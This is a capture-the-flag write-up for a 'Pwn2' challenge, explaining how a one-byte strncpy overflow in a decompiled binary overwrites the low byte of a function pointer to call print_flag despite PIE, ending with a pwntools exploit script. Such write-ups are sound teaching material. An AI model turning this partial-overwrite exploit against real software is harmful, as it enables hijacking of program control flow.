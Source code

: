# Pwn2  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/1c084821-f27e-4118-87c1-0f1452e578f9)  
It says that the objective of this challenge is to read the flag, not to pop a shell.  

Let's see what happens when you run the program:  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/93f1e762-26e7-4248-a73a-4ec28894ff6f)  
It doesn't seem to do anything, but lets take a peek inside to see what the binary is really doing.  


```
undefined4 main(void)

{
  char input [31];
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(_stdout,(char *)0x2,0,0);
  puts("Which function would you like to call?");
  gets(input);
  select_func(input);
  return 0;
}

void select_func(char *input)

{
  int iVar1;
  char local_2e [30];
  code *func_ptr;
  
  func_ptr = two;
  strncpy(local_2e,input,31);
  iVar1 = strcmp(local_2e,"one");
  if (iVar1 == 0) {
    func_ptr = one;
  }
  (*func_ptr)();
  return;
}
```
`one` and `two` are functions that just print some text. There is also a `print_flag` function, that prints the flag, but it is not called anywhere.   
Looking at the `select_func` function it seems that we should have called `two`, but we didn't. What happened?  
First notice that our buffer is 30 bytes long, but `strncmp` is reading 31 bytes. Looking into the `strncpy` man pages we see:  
" If the length of src is less than n, strncpy() writes additional null bytes to dest to ensure that a total of n bytes are written "  
That means that even though our input was not long enough, we still had a single byte overflow.  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/a156c274-0c2e-4608-b653-90f0beecb346)  
The stack layout in Ghidra indicated that the byte is overflowing into the function pointer. So that's why `two` was not getting called.  

Now that we know what is going on, we can abuse this byte overflow to call another function that we are interested in. Note that, even though PIE is enabled, due to the way PIE and ASLR work, only the base addresses are randomized.
This means some of the lower bytes are not random. Therefore we can overwrite the last byte of the function pointer with something else, and not worry about PIE.  

Our function of interest is `print_flag`.  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/484e8cf8-af44-4de3-9f7c-67ca44c60d94)  
Notice that in this case only the last byte differs! Almost like this is by design...  

Now everything is ready for us to write an exploit.  
```python
# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'pwn2')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

payload = 30*b'A' + (exe.sym['print_flag'] & 0xff).to_bytes(1,'little')
io.sendline(payload)

io.interactive()
```
ez <|:^)  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/9ecebc6a-171f-4f01-9746-7452773dc0ae)






